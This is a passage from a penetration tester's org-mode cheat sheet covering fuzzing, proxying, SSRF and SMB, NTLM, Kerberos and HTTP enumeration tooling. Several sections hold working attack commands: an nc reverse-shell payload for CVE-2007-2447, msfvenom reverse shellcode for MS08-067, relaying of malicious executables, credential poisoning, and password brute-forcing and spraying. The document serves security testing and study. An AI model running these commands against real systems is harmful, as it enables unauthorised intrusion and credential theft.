         # -Z - Ignore errors | -c - colors
         # --hh <n> - Filter by size
         # --hl <n> - Filter by lines
         # --hw <n> - Filter by words
         # --hc <c> - Filter by HTTP code
         # --hs <r> - Filter by PyRegex
         # Use --s[hlwcs] <w> for matches

         # Filter using a baseline + cookie
         wfuzz -w <wlist> -X HEAD --hh BBB -b 'PHP=lol' -c '<url>/FUZZ{nopage}'
         # First request will be <url>/nopage

         # Read from stdin and fuzz POST
         sed '1,33d' <file> | wfuzz -z stdin -d 'user=FUZZ&pass=test' -c '<url>'

         # Fuzz HTTP Basic + follow redirect
         wfuzz -w <wpwd> -w <wusr> --basic 'FUZ2Z:FUZZ' --follow -c '<url>'

         # Fuzz numeric identifier
         wfuzz -z range,0-100 -Z -c '<url>/FUZZ'
       #+end_src
     - [[https://wfuzz.readthedocs.io/en/latest/user/wfpayload.html][wfpayload]] *TODO*
     - Apparently [[https://www.doria.fi/handle/10024/181265][still better than ffuf]]
*** Tampering
**** Wuzz
     - [[https://github.com/asciimoo/wuzz][Site]] - HTTP Client - [[https://github.com/asciimoo/wuzz/blob/66176b6ef86c4879975d4075d784135d56ee3e82/wuzz.go#L1553][hidden flags]]:
       #+begin_src sh
         # Ctrl-J/K: Down/Up  |Ctrl-R: Submit
         # Ctrl-E: Export Curl|Alt-H: History
         # Ctrl-S: SaveRequest|Ctrl-C: Quit
         wuzz http://<ip-hostname>
         # Proxy: -x <proxy-url>

         # URLencode data + no redirect
         wuzz --data-urlencode "user=<hi>" -R http://<ip-hostname>
         # For GET urlencode try: -X GET
         # For binary data: --data-binary <d>
         # Multiple data: user=user&pass=pass
       #+end_src
**** Mitmproxy
     - [[https://github.com/mitmproxy/mitmproxy][Site]] - Proxy - [[https://docs.mitmproxy.org/stable/overview-features/][Docs]]/[[https://docs.mitmproxy.org/stable/addons-examples/][Addons]] ([[https://github.com/mitmproxy/mitmproxy/blob/main/examples/contrib/xss_scanner.py][xss/sqli]]):
       #+begin_src sh
         # Listens on port 8080 by default
         mitmproxy --anticache -p 8080
         # Other mode: -m socks5/transparent
         # Use addons: -s <addon.py>
         # Don't verify SSL: -k
         # Client obtain SSL: http://mitm.it

         # Vi movement | Commands:
         f # Regex of captures to show/edit
         i # Regex of captures to intercept
         I # Toggle intercept
         v # Reverse capture order
         o # Set capture ordering
         n # Make new request
         D # Duplicate capture
         :export.clip curl @focus # Clipboard
         e # At mainpage view: Export to file
         e # At capture/intercept view: Edit
         V # Revert capture/intercept changes
         r # Replay capture
         a # Forward selected intercept
         A # Forward all intercepts
         X # Drop intercept
         d # Delete capture
         z # Delete all captures
         F # Focus on capture
         P # Show capture details
         m # Toggle capture mark
         M # Toggle show only marked
         U # Unset all marks
         Z # Remove not showing
         S # Start server replay
         E # Show event log
         - # Cycle layouts
         O # Change Options
         ? # Help (view specific and global)

         # Capture/Intercept filter expr:
         ~q           # Match Requests
         ~c   <rcode> # Match HTTP Res Code
         ~m   <regex> # Match HTTP Method
         ~u   <regex> # Match URL (default)
         ~b   <regex> # Match Req/Res body
         ~bs  <regex> # Match Response body
         ~h   <regex> # Match Req/Res header
         ~hq  <regex> # Match Request header
         ~src <regex> # Match src address
         ~dst <regex> # Match dst address
         ~marked      # Match marked Req/Res
         ~a           # Match assets IMG,JS..
         ~e           # Match errors
         ~http ~tcp ~websockets # Match flows
         # Unary expr: ! & | and: () grouping

         # For auto-regex replacement check:
         # Map Remote/Local Modify Body/Headr

         # Set/Alter headers -> Options
         modify_headers
           /<header-name>/<value>

         # Mitmproxy has a Python library
       #+end_src
     - Export to ~curl~ command format and add ~-j <cookiejar>~ to get Netscape cookies
     - If [[https://github.com/mitmproxy/mitmproxy/blob/main/examples/contrib/har_dump.py][HAR dumping]], use [[https://github.com/mrichman/hargo][Hargo]] to process
     - Use [[https://docs.mitmproxy.org/stable/#mitmdump][mitmdump]] for non-interactive CLI
**** Requestify
     - [[https://github.com/ggabarrin/requestify][Site]] - Convert Raw HTTP Request:
       #+begin_src sh
         # To NodeJS (JSON header)
         requestify.py -i <raw> -l nodejs
       #+end_src
**** RABID
     - [[https://github.com/Orange-Cyberdefense/rabid][Site]] - RAW Cookie decoder - [[https://noraj.github.io/rabid/#/pages/usage?id=cli][Docs]]:
       #+begin_src sh
         rabid '<raw-cookie>'
       #+end_src
*** SSRF
**** curl
     - Map all open localhost TCP ports:
       #+begin_src sh
         # GET request
         seq 65535 | xargs -P 0 -I{} sh -c 'curl -m 5 -s "http://<domain.port>/?url=http://127.0.0.1:{}" | tr "\n" " " | sed -n "/[^ ]/{s/^/\n[+] {}:\n &/;s/$/\n/p}"'

         # POST request
         seq 65535 | xargs -P 0 -I{} sh -c 'curl -m 5 -s -L --data-urlencode "url=http://127.0.0.1:{}" http://<domain.port> | tr "\n" " " | sed -n "/[^ ]/{s/^/\n[+] {}:\n &/;s/$/\n/p}"'
       #+end_src
*** URI Schemes
**** HTTP / HTTPS
     - May accept inline Basic Auth:
       - ~http://<usr>:<pass>@<domain/ip>~
     - Spaces not allowed - hex-code them
**** FTP / FTPS
     - Inline auth supported:
       - ~ftp://<usr>:<pass>@<domain/ip>~
**** File
     - Like in the filesystem -> Don't think it follows the HTTP rules, but some implementations may vary (ex: Windows)
     - You may specify a hostname:
       - ~file://<host>/<full/path>/file.txt~
       - Omitting ~<host>~ means ~localhost~
     - For Windows, the drive is necessary:
       - ~file://<host>/c:/<path>/file.txt~
     - But the host is optional:
       - ~file:///c:/<path>/file.txt~
     - Four slash host is an alt for Win UNC:
       - ~file:////<server>/<dir>/file.txt~
       - Like ~\\<server>\<dir>\file.txt~
     - Spaces supported as is, no hex need:
       - ~file:///<full/path>/test file.txt~
     - One slash means that there's no host:
       - ~file:/<full/path>/file.txt~
**** Gopher
     - GET request for ~/test~ on localhost
       - ~gopher://<ip>:80/_GET%20/test%20HTTP/1.1~
     - Empty POST request to ~/~ on localhost
       - ~gopher://<ip>:80/_POST%20/%20HTTP/1.1%0a~
**** Data
     - Plaintext or Base64, other encodings may be supported:
       - ~data://text/plain,<plaintext>~
       - ~data://text/plain;base64,<b64text>~
     - Optional attributes may allow specifying a filename (~name~):
       - ~data://application/pdf;name=document.pdf;base64,<b64text>~
     - Leading slashes might be omitted:
       - ~data:image/gif;base64,<b64text>~

* Protocols
** SMB
*** Enumeration
**** Nmap
***** Safe
      - All enums
       #+begin_src sh
          nmap -sS -n -sV --open -p135,139,445,1025 -Pn --script=\*smb\*enum\* <ip>

          # Set a different user/pass with:
          #  --script-args=smbusername=<user>
          # Use a , and smbpassword=<pass>
          nmap -sS -n -sV --open -p135,139,445,1025 -Pn --script=\*smb\*enum\* --script-args=smbusername=<user>,smbpassword=<pass> <ip>
       #+end_src
      - Proto + MBenum + OS + Security + Stat
        #+begin_src sh
          nmap -sS -n -sV --open -p135,139,445,1025 -Pn --script=smb-protocols,smb-mbenum,smb-os-discovery,smb-security-mode,smb-system-info,smb2-capabilities <ip>
        #+end_src
      - Many useful scripts:
        #+begin_src text
          nmap -sS -n -sV --open -p135,139,445,1025 -Pn --script=smb-enum-domains,smb-enum-groups,smb-enum-processes,smb-enum-services,smb-enum-sessions,smb-enum-shares,smb-enum-users,smb-ls,smb-mbenum,smb-os-discovery,smb-protocols,smb-security-mode,smb-server-stats,smb-system-info,smb2-capabilities,smb2-security-mode,smb2-time <ip>
        #+end_src
***** Unsafe
      - All the previous scans can be made unsafe by setting ~--script-args=unsafe=1~
      - Vulnerability enums:
        #+begin_src sh
          nmap -sS -n -sV --open -p135,139,445,1025 -Pn --script=smb\*vuln\* <ip>
        #+end_src
      - All "useful" SMB scans unsafe-mode:
        #+begin_src sh
          nmap -sS -n -sV --open -p<ports> -Pn --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 <ip>
        #+end_src
**** enum4linux
     - [[https://github.com/CiscoCXSecurity/enum4linux][Site]] - [[https://github.com/cddmp/enum4linux-ng][ng-version]] - Enum SMB info
       #+begin_src sh
         enum4linux -d <ip>
         # -u <user> | -p <pass>

         # Extra for DCs
         enum4linux -d -a -l <ip>
       #+end_src
**** smbclient
     - First add ~min protocol = NT1~ or ~SMB2~ to the end of ~/etc/smb.conf~
     - List services/shares:
       #+begin_src sh
         # Use -N for no-password
         # Change the security inline
         # --option='client min protocol=NT1'
         smbclient -L <ip> --port=<alt port> --user=<optional user>
         # <ip> may need to be:
         #  //<ip>/
         #  \\\\<ip>\\
       #+end_src
     - Connect to service:
       #+begin_src sh
         # Use -N for no-password
         smbclient //<ip>/<service>$
         # You will have more luck with those
         # that don't end in a $
       #+end_src
     - Auth access to the System Volume:
       #+begin_src sh
         smbclient -U "<user>%<pass>" //<ip>/SYSVOL

         ls
       #+end_src
**** smbmap
     - [[https://github.com/ShawnDEvans/smbmap][Site]] - SMB enumeration tool:
       #+begin_src sh
         smbmap -u 'guest' -H <ip>
         # Wrong username required to work
         # -p <passwd/ntlm>
         # -x <cmd>       - Execute command
         # -R <share>     - Recursive listing
         # --upload <src> <dst>
         # --download <path>
       #+end_src
*** Bruteforce
**** Hydra
     - [[https://github.com/vanhauser-thc/thc-hydra][Site]] - Multi-protocol bruteforcer:
       #+begin_src sh
         # Check hydra -U smb for more opts
         hydra -l admin -P <dict> smb://<ip>
       #+end_src
**** CrackMapExec
     - [[https://github.com/byt3bl33d3r/CrackMapExec][CrackMapExec]] - Swiss Army Win pentest
       #+begin_src sh
         # Spray a password across users
         crackmapexec smb <ip> -u <userlist> -p <passwd>
       #+end_src
     - [[https://github.com/byt3bl33d3r/CrackMapExec/wiki/SMB-Command-Reference][SMB reference]]
*** Mount shares
**** mount
     #+begin_src sh
       # Using SMBv1
       # Press <Enter> when asked for a
       # password to mount anonymously
       mount -t cifs -o vers=1.0,username=guest //<ip>/<service>$ /mnt

       # Alternative
       mount -t cifs -o vers=1.0,guest //<ip>/<service>$ /mnt
       # You may try to pass user=<name>
       # to impersonate

       # Last alternative
       mount -t cifs -o vers=1.0,sec=none //<ip>/<service>$ /mnt
       # Also try without the trailing $
     #+end_src
*** MS-RPC - CVE-2007-2447
    - Affects SMB 3.0.0 < 3.0.25rc3
    - Anon login required to a share:
      #+begin_src sh
        # Change the security with
        # --option='client min protocol=NT1'
        smbclient -N //<ip>/<share>

        # logon command must be available
        help

        # Spawn a reverse shell
        logon "./=`nohup nc -n <ip> <port> -e /bin/sh`"
        # Fallback to $() and single quotes
      #+end_src
    - There's also [[https://github.com/amriunix/CVE-2007-2447][this Python implementation]]
*** MS08-067
    - Use [[https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py][ms08-067.py]]
    - Replace the payload with ~msfvenom~:
      #+begin_src sh
        msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=8080 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode
      #+end_src
    - Run it:
      #+begin_src sh
        python2 ms08-067.py <ip> <os-type> <port>
      #+end_src
*** MS17-010
    - Modify the Python scripts for just sending files after obtaining a shell (search and comment the ~service_exec~ function call)
    - *IMPORTANT:* The scripts may fail if using blank credentials, whereas they won't with the wrong ones (see ~smbmap~)
    - [[https://github.com/helviojunior/MS17-010][helviojunior/MS17-010]]
      - Win XP - Send and run executables:
        #+begin_src sh
          # Modify USERNAME if needed
          python2 send_and_execute.py <ip> <shell.exe>
        #+end_src
    - [[https://github.com/3ndG4me/AutoBlue-MS17-010][3ndG4me/AutoBlue-MS17-010]]
      - Modern scripts but no XP exploitation
      - Best pipe finder (works in XP):
        #+begin_src sh
          python2 eternal_checker.py <ip>
        #+end_src
*** printerbug.py
    - [[https://github.com/dirkjanm/krbrelayx][Site]] - Auth -> SpoolService bug via SMB
      #+begin_src sh
        # Force auth with attacker: responder
        printerbug.py [[<dom>/]<user>[:<pass>]@]<host/ip> <attacker-ip>
      #+end_src
*** Impacket
**** PSEXEC
     - [[https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py][psexec.py]] - SMB upload & exec bin: cmd
       #+begin_src sh
         # By default runs cmd.exe
         psexec '[dom/]<user>[:<pass>]@<ip>'
         # -no-pass
         # -hashes <LM>:<NT> - NTLM auth
         # -k                - Kerberos auth
       #+end_src
**** SMBserver
     - [[https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py][smbserver.py]] - Share a path over SMB:
       #+begin_src sh
         # sudo required for port 445 binding
         sudo smbserver.py share .
         # Modern need: -smb2support for SMB2
       #+end_src
     - Download/Upload files from Windows:
       #+begin_src bat
         :: Download
         copy \\<ip>\share\<remote-file> .

         :: Upload
         copy <local-file> \\<ip>\share\
       #+end_src
**** SMBrelayx
     - [[https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbrelayx.py][smbrelayx.py]] - Serve payload on conn:
       #+begin_src sh
         # Send evil exe to victims
         smbrelayx.py -h <ip> -e <evil-exe>
         # The evil exe will be executed
       #+end_src
*** winexe
    - [[https://gitlab.com/kalilinux/packages/winexe][Site]] - Execute commands remotely on Windows NT/2000/XP/2003 - winexe serv:
      #+begin_src sh
        winexe -U 'Administrator%<pass>' //<ip> 'cmd.exe'
      #+end_src
*** Metasploit
    - There may be some issues with the SMB modules, try the [[https://github.com/rapid7/metasploit-framework/issues/13977#issuecomment-705066743][proposed fixes]]:
      #+begin_src sh
        set SMBUser <user>
        set SMBPass <password>
        set SMB_SHARE_NAME <writable_folder>
        set SMB::AlwaysEncrypt false
        set SMB::ProtocolVersion 2,3
        # Or proto 1
        set SMB::ProtocolVersion 1
      #+end_src
** NFS
*** Enumeration
**** showmount
     - Show the available NFS shares:
       #+begin_src sh
         showmount -e <ip/hostname>
         # -d  -> Dirs mounted by clients
         # -a  -> All info (non-reliable)
       #+end_src
*** Mount shares
**** mount
     #+begin_src sh
       mkdir /tmp/<path>

       mount -t nfs <ip>:<rpath> /tmp/<path> -nolock
     #+end_src
**** Bypass Access Permission Restrictions
     - Only works if squashing is disabled:
       #+begin_src sh
         # Remote host - Check for squashing:
         cat /etc/exports
         # root_squash -> disable remote root
         # no_all_squash -> enable remote usr
       #+end_src
     - List exported folder UID and GID:
       #+begin_src sh
         # Main folder owners
         ls -lahud <folder>

         # Folder content owners
         ls -lahu <folder>
       #+end_src
     - If ~no_all_squash~ is set, create a local user with the same UID and GID:
       #+begin_src sh
         useradd -M -u <uid> -g <gid> -o <name>
         # -M - Don't create home folder
         # -o - Allow non-unique ids
       #+end_src
     - Switch to the user to access the dir:
       #+begin_src sh
         sudo -u <usr> -i /bin/bash
         # or
         su <usr>

         cd /tmp/<path>
       #+end_src
     - Remove the user:
       #+begin_src sh
         userdel -r <name>
         # -f - Force deletion
       #+end_src
** RPC
*** Enumeration
**** rpcinfo
     - Show all RPC services registered:
       #+begin_src sh
         # Uses rpcbind version 1
         rpcinfo -s <ip/host>
         # -s         -> Simplified output
         # -n <port>  -> Use port number
         # -a <ip:port> -T tcp/udp - Alt

         # Uses rpcbind version 2
         rpcinfo -p <ip/host>

         # Query service
         rpcinfo -p <ip/host> <serv-num>
         # -T tcp/udp -> Force transport
         # -l         -> List all entries
       #+end_src
**** rpcclient
     - Anon bind and user enumeration:
       #+begin_src sh
         # Connect as anon user and no-pass
         rpcclient -U "" -N <ip/host>
         # Also try -U "%"
         # -p <port> - Use instead of 139

         enumdomusers   # Enum Domain Users
         enumdomgroups  # Enum Domain Groups

         querygroup    <rid> # Group Info
         querygroupmem <rid> # and Membership

         queryuser <rid> # User/computer info
         # Includes pass attempts/cooldown

         # Info about passwords in...
         getdompwinfo           # the domain
         getusrdompwinfo <rid>  # usr account
       #+end_src
     - Simple password bruteforce:
       #+begin_src sh
         while read p; do rpcclient -U "<usr>%$p" -c 'getusername;quit' <ip/host> 2>&1 | grep -q '<usr>' && { echo "Valid pass: $p"; break; }; done < rockyou.txt
         # Password-spray by iterating over
         # the users with just one password
       #+end_src
**** rpcdump
     - [[https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py][Impacket tool]]: DCE/RPC endpoint mapper
       #+begin_src sh
         rpcdump.py [[dom/]user[:pass]@]<dst>
         # dst can be:
         #  - IP
         #  - NetBIOS name
         # -target-ip <ip> (if dst: NB name)
         # -port <port>
       #+end_src
** NTLM
*** Capture
**** Responder
     - [[https://github.com/lgandx/Responder][Site]] - MS proto poison & collect creds
       #+begin_src sh
         # Capture <iface> - Listen only
         responder -A -v -I <iface>

         # Capture <iface> - Poison features
         responder -wrf -v --lm -I <iface>
         # -e <ip>    - Poison req with <ip>
         # -b         - Basic HTTP auth
         # -u <proxy> - WPAD upstr HTTP proxy
         # -P         - Force proxy auth
         # -d         - Answer NB dom suffix
         # -F         - Force wpad.dat auth
         # --disable-ess - ESS downgrade
       #+end_src
     - Crack the hashes as-is with ~john~ or ~hc~
** LDAP
*** Enumeration
**** ldapsearch
     - From [[https://www.openldap.org/][openldap]] (utils) - Search LDAP
       #+begin_src sh
         # -x uses simple auth
         ldapsearch -x -H ldap://<ip/domain> -s base
         # -w <pass> - Pass for simple auth

         # Only return specific attributes
         ldapsearch -x -H ldap://<ip/domain> -s base namingcontexts
         # ^ Finds all domain names
       #+end_src
**** ldapdomaindump
     - [[https://github.com/dirkjanm/ldapdomaindump][Site]] - Dump AD info via LDAP
       #+begin_src sh
         # Leave creds empty for anonymous
         ldapdomaindump -u '<dom>\<user>' -p '<pass>' --no-html --no-grep <ip>
         # <ip> can be ldap[s]://<ip>:<port>
         # -at SIMPLE - Use simple Auth
         # -o <dir>   - Output directory
         # -r         - Resolve hostname
         # -m         - Dump minimal info

         # Pretty print JSON output
         ldd2pretty --directory <path>

         # Read html output if --no-json
         cat domain_*.html | w3m -T text/html
       #+end_src
** Kerberos
*** Enumeration / Bruteforce
**** kerbrute
     - [[https://github.com/ropnop/kerbrute][Site]] - Enum users + brute/spray creds
       #+begin_src sh
         # Enum valid users
         kerbrute userenum --dc <dc-ip/domain> -d <domain> <usrlist>
         # dc-domain & domain may be the same

         # Spray password
         kerbrute passwordspray --dc <dc-ip/domain> -d <domain> <usrlist> <pass>
       #+end_src
*** AS-REP Roasting
**** GetNPUsers
     - [[https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py][Site]] (Impacket) - Get non-preauth TGTs
       #+begin_src sh
         # Get TGTs for list of users
         GetNPUsers.py -dc-ip <ip> <domain>/ -usersfile <usrfile> -format <hashcat|john> -outputfile <file>

         # Get TGTs for all domain users
         GetNPUsers.py -dc-ip <ip> <domain>/<user>:<passwd> -request -format <hashcat|john> -outputfile <file>
       #+end_src
**** GetADUsers
     - [[https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetADUsers.py][Site]] (Impacket) - List all usernames:
       #+begin_src sh
         GetADUsers -all -dc-ip <ip> <domain>/<usr>:<pass>
         # -hashes <LM>:<NT> - NT auth
       #+end_src
** WinRM / PSRP
*** evil-winrm
    - [[https://github.com/Hackplayers/evil-winrm][Site]] - Remote shell - Port 5985:
      #+begin_src sh
        # Check the Site for extra features
        evil-winrm -u '[<domain>\]<user>' -p '<pass>' -i <ip>

        # Login with NTLM hash (not NTLVv2)
        evil-winrm -H '<ntlm-hash>' -i <ip>

        # -S        - enable ssl
        # -P <port> - Other than 5985 port
        # -s <path> - Load local PS scripts
        # -e <path> - Load local C# exes
        # -U <uri>  - URI path to /wsman
        # -r <dom>  - Kerberos realm domain

        # upload   - Upload local files
        # download - Download remote files
        # services - Show running services
        # menu     - Show extra features:
        #  [Dll|Donut]-loader | Invoke-Binary
      #+end_src
** HTTP / HTTPS
*** Enumeration
**** Console page rendering
***** w3m
      - Usage - best standalone Renderer:
        #+begin_src sh
          # Add -dump to not start pager
          w3m <url>
          # Use -T text/html with files

          # Cookies are in Netscape format
          HOME=/tmp w3m -cookie <url>
          # Cookies are in /tmp/.w3m/cookie

          # For insecure sites you may try
          w3m -insecure <url>

          # Or
          w3m -o ssl_cipher='ALL:@SECLEVEL=0' -o ssl_min_version='TLSv1.0' -o ssl_forbid_method='' -o ssl_verify_server=0 <url>

          # As a last resort pipe curl
          curl -s <url> | w3m -T text/html
        #+end_src
***** Browsh
      - [[https://github.com/browsh-org/browsh][Site]] - Renders JS - Requires Firefox:
        #+begin_src sh
          # Needs mouse support for clicks
          browsh <url>
          # Alt: --firefox.path "firefox-esr"
        #+end_src
      - Use the [[https://github.com/browsh-org/browsh/tree/vim-mode-experimental][vim-mode]] experimental branch
      - Or install [[https://addons.mozilla.org/en-US/firefox/addon/vim-vixen/][Vim-Vixen]] in [[https://github.com/browsh-org/browsh/pull/264][GUI mode]]
***** Lynx
      - Preserves links:
        #+begin_src sh
          # Add -dump to not start pager
          lynx <url>
          # Use -force_html to force parsing
        #+end_src
***** html2text
      - [[https://github.com/grobian/html2text][C++]]/[[https://github.com/Alir3z4/html2text/][Python]] - Simple script for files:
        #+begin_src sh
          # Prettify with -style pretty
          html2text <file>
        #+end_src
**** Curl
     - Headers + body:
       #+begin_src sh
         curl -i <url>
       #+end_src
     - Headers only:
       #+begin_src sh
         curl -I <url>
       #+end_src
     - Response size only:
       #+begin_src sh
         curl -s -w '%{size_download}' <url>
       #+end_src
     - Follow redirection:
       #+begin_src sh
         curl -L <url>
       #+end_src
     - Connect to old SSL/TLS sites:
       #+begin_src sh
         curl -1 --ciphers 'DEFAULT:!DH' -k <url>
       #+end_src
     - ~curl --trace~ parser: [[https://github.com/apiaryio/curl-trace-parser][curl-trace-parser]]
**** HTTPie
     - [[https://github.com/httpie/httpie][Site]] - Curl+Wget+JSON CLI - [[https://httpie.io/docs#examples][Docs]]:
       #+begin_src sh
         # GET request with parameteres
         http <url> 'q==hi' 'sort==3'

         # POST request URLencoded
         http -F -f <domain-ip>/<path> 'u=me'
         # -F to follow | -f use "form mode"
         # --all to show all redirects

         # Check request without sending it
         http --offline <domain-ip>

         # Upload a file (default is POST)
         https PUT <domain-ip> < '<file>'

         # Perfrom LFI check
         http --path-as-is <domain-ip>/../../../etc/passwd

         # Response headers in JSON
         https -h -j <domain-ip>
         # -p Hh to print Resquest & Response

         # Store/Use session (cookies) - JSON
         http --session=<path> <domain-ip>

         # HTTP Auth
         http -a <user:pass> <domain-ip>
         # -A basic/digest for Auth type
         # --proxy=<method>:<url>
       #+end_src
     - [[https://github.com/hongquan/CurliPie][CurliPie]] - Convert ~curl~ to ~HTTPie~
     - [[https://github.com/httpie/http-prompt][HTTP Prompt]] - Interactive ~HTTPie~ - [[https://docs.http-prompt.com/en/latest/][Doc]]
       #+begin_src sh
         http-prompt <url> <httpie-options>

         # Supports everything HTTPie does
         env      # Show flags set
         cd <uri> # Move to parent/child URI
         httpie   # Show what will get run
         rm -o *  # Remove all HTTPie options
         post     # Perform POST request
         rm -b *  # Remove all "body options"
         # Remember: -f -F --session <file>
         # to be able to perform cd <uri>
         get | w3m -T text/html # Pipe GET
         env > <file>  # Save session to file
         source <file> # Load session
         exec <file>   # Replace&Load session

         # Start from session
         http-prompt --env <session> <url>
       #+end_src
**** openssl s_client
     - Query site:
       #+begin_src sh
         echo -ne "GET /<path> HTTP/1.0\r\nHost: <domain>\r\n\r\n" | openssl s_client -connect <site>:443 -verify_quiet -quiet 2>/dev/null | sed -n '$G;1,/^\s*$/!P'
         # For file downloading: sed '1,/^\s*$/d'
       #+end_src
**** Bash
     - Query site:
       #+begin_src sh
         { echo -ne "GET /<path> HTTP/1.0\r\nHost: <ip-dom>\r\n\r\n" >&3;
           sed -n '$G;1,/^\s*$/!P' <&3;
         } 3<>/dev/tcp/<ip-domain>/80
         # For file downloading: sed '1,/^\s*$/d'
       #+end_src
**** Perl
     - Core Perl:
       #+begin_src sh
         # Remove $/="\r\n"x2 to show the headers
         perl -MSocket -e '$"=",";socket$s,2,1,6;$$_[2]=qq/pack"$$_[2]"/,eval"setsockopt\$s,@$_"for[1,13,ii,1,5],[6,18,L,5000],map[1,$_,"l!2",5],20,21;connect$s,sockaddr_in+80,inet_aton$h="<ip-host>";send$s,"GET /<path> HTTP/1.0\r\nHost: $h\r\n\r\n",0;$/="\r\n"x2;<$s>;print<$s>'
         # If headers don't end in \r\n use:
         #   1until<$s>=~/^\s*$/;print<$s>
         #
         # For HTTP/1.1 add Connection: close
         #
         # The first socket call is equivalent to
         #   socket$s,PF_INET,SOCK_STREAM,
         #            getprotobyname("tcp")
         # Packed arrays structure:
         # [ <Sock-Level>, <Level-Opt>, <Rest*> ]
         # Sock-Level 1 -> SOL_SOCKET
         #   Level-Opt 13 -> SO_LINGER
         #   Level-Opt 20 -> SO_RCVTIMEO
         #   Level-Opt 21 -> SO_SNDTIMEO
         #   See man socket7,asm-generic/socket.h
         # Sock-Level 6 -> getprotobyname("tcp")
         #              or Socket::IPPROTO_TCP
         #   Level-Opt18 Socket::TCP_USER_TIMEOUT
         #   See man tcp7 & ip7, and linux/tcp.h
       #+end_src
*** Methods
**** Identification
     - Use [[https://nmap.org/nsedoc/scripts/http-methods.html][Nmap NSE http-methods]]:
       #+begin_src sh
         # Select path: http-methods.url-path
         nmap --script=http-methods
         # Unsafe args: http-methods.test-all
         # Individually: http-methods.retest
       #+end_src
     - Different directories may support different methods:
       #+begin_src sh
         # See first the helpers below
         while read p; do nmap -sT -n -Pn -T4 --min-rate=1000 --script=http-methods --script-args=http-methods.test-all,http-methods.url-path="/$p/" -p<port> <ip>; done < "<path-list>"
       #+end_src
     - Trim the domain from the URLs:
       #+begin_src sh
         sed -n 's, *https\?://[^/]*/,,p' "<path-list>" > trim.paths
       #+end_src
     - Generate all the intermediary paths:
       #+begin_src sh
         sed -n 's,/$,,;:a;p;s,/[^/]*$,,;ta' trim.paths | sort -u > all.paths
       #+end_src
**** PUT
***** Notes
      - Sites may deny files with specific extensions like ~.php~ but not ~.php5~
***** Check All Subdirs
      - Assume you have a file with full URLs
        #+begin_src sh
          # Without trailing slash: $,/, -> $,,
          sed 's, *https\?://,,;:a;s,/[^/]\+/\?$,/,p;ta' furls.txt | sort -u | httprobe > sdirs.txt

          # Alternative using Zsh builtins
          while read f; do while ! [[ "$f" =~ ".*<site.com>/$" ]]; do f="${f:h}/"; echo "$f"; done; done < furls.txt | sort -u > sdirs.txt
        #+end_src
      - Probe each subdir with ~curl~:
        #+begin_src sh
          while read u; do while :; do { timeout 3 curl -ski -X OPTIONS "$u" 2>&1 || continue; } | { grep -v '^$' || continue; } | { grep -o '.*\<PUT\>' | sed "i[$u]"$'\na\n'; }; break; done; done < sdirs.txt
          # Might require GNU sed
        #+end_src
***** Nmap
      - Use [[https://nmap.org/nsedoc/scripts/http-put.html][NSE http-put]] to upload files:
        #+begin_src sh
          # Redirection cause false positives
          nmap -sS -n -Pn -T4 --min-rate=1000 --script=http-put --script-args=http-put.url="<dest-file-path>",http-put.file="<local-file-path>" -p<port> <ip>

          # Use the Identificaton for loop
          while read p; do nmap -sT -n -Pn -T4 --min-rate=1000 --script=http-put --script-args=http-put.url="/$p/<file.ext>",http-put.file="<local-file-path>" -p<port> <ip>; done < <fpaths> 2>&1 | grep "successfully"
        #+end_src
***** Curl
      - Usage:
        #+begin_src sh
          curl -i 'Content-Type: text/plain; charset=utf-8' -T "<local-file-path>" http://<ip>/<dir>
        #+end_src
**** GET
***** Wget
      - Download all files recursively:
        #+begin_src sh
          # Don't recurse to the parent
          wget --no-parent -r <url/path>

          # and don't download index files
          wget --no-parent --reject "index*" -r <url/path>
        #+end_src
*** Headers
**** Keep-Alive
     - Used for persistent connections
     - Can be used to bypass WAF TCP connection limits and DoS
     - Check if the server supports it:
       #+begin_src sh
         curl -H 'Connection: keep-alive' -I
       #+end_src
     - Test it with [[https://serverfault.com/a/199446][curl]]:
       #+begin_src sh
         curl -v "<url>" "<same-url>"
       #+end_src
*** Bruteforce
**** Forms
***** Dynamic CSRF / OAuth Token Protection Bypass
****** Tools
       - ~patator~ is [[https://blog.g0tmi1k.com/dvwa/bruteforce-high/#Patator][able to do it]] but might not be the most efficient if the server allows reusing the CSRF token a few times
       - ~wfuzz~ is also able to do it (and efficiently) via its python library using [[https://wfuzz.readthedocs.io/en/latest/library/guide.html#fuzzsession-object][FuzzSession]] and modifying the ~.fuzz()~ parameters via the [[https://wfuzz.readthedocs.io/en/latest/library/guide.html#interacting-with-the-results][Result Object]]
****** Proxies
       - All the other bruteforcers can obtain this feature via a proxy
       - Burp Suite is [[https://blog.g0tmi1k.com/dvwa/bruteforce-high/#Hydra][able to do it]] although not in the most efficient way if the server allows reusing CSRF tokens a few times
       - Mitmproxy is also [[https://stackoverflow.com/a/70775093][able to do it]] (and efficiently) by checking for CSRF errors in the response, saving the CSRF token & repeating the request - [[https://github.com/tothi/oauth-mitmproxy/blob/master/oauth-mitmproxy-addon.py][see OAuth sample]]
***** Hydra
      - [[https://github.com/vanhauser-thc/thc-hydra][Site]] - Multi-protocol bruteforcer:
        #+begin_src sh
          # [!] Don't add http:// to <ip>
          # Use -S for SSL or -O -> older SSL
          # Single user bruteforce
          hydra -l <usr> -P <wordlist> -f -e ns -s <port> <ip> http-post-form '/path/to/form:user=<user>&password=^PASS^:Invalid Password!'
          # -f -> exits when finding 1 combo
          # Form fields: user and password
          # <user>&<pass> taken from request
          # ^PASS^ is replaced by <wlist>
          # :F="Invalid Password!" if failure
          # Use :S=<success-str> otherwise
          # :A=(BASIC|NTLM|MD5) to set auth
          # :H=My\: Header to set headers
          # More info: hydra -U http-post
        #+end_src
      - *Only* ^USER^/^PASS^ get URL-encoded ([[https://github.com/vanhauser-thc/thc-hydra/blob/master/hydra-http-form.c#L743][ref]]), *escape* non-delimiter colons
      - Hydra doesn't like named pipes as wordlists, use zsh ~=()~ temp files
      - JSON/AJAX forms require headers ([[https://security.stackexchange.com/a/57858][ref]]):
        #+begin_src sh
          # JSON fields need double quotes
